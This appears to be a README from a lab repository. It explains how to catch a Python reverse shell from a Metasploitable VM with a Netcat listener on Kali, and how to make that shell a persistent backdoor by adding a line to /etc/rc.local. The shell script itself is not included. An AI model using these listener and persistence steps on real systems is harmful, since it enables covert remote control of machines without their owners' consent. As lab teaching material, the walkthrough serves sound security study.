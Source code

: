 # Reverse-Shell
Write, set up, and execute a reverse shell in Python on Kali Linux and Metasploitable VM's, and automate this process creating a persistent backdoor.

!!Make sure that Both VM's can communicate with eachother on a secure network!!

On Kali, start a Netcat listener on port 7777: nc -lvnp 7777

  This tells Netcat to listen verbosely on port 7777 and not to close the connection.

On Metasploitable machine, create a Python script: sudo nano reverse_shell.py

  Write or paste the committed code in this file; save and exit the editor.

  Run "python reverse_shell.py" 

A connection should be established on Kali's Netcat listener, providing an interactive shell to the Metasploitable VM.

How to automate this process:

  Open the rc.local file: sudo nano /etc/rc.local

  Before the exit 0 line, add: python /path/to/your/reverse_shell.py &

  In my case: python /home/msfadmin/yannos/reverse_shell.py &

  The "&" makes sure it runs in the background.

Make the script executable: 

  sudo chmod +x /path/to/your/reverse_shell.py

  In my case: sudo chmod +x /home/msfadmin/yannos/reverse_shell.py

  Make sure rc.local is executable: sudo chmod +x /etc/rc.local

  Reboot and start the listener on Kali.

The shell should automatically establish on the listener upon reboot of Metasploitable VM.
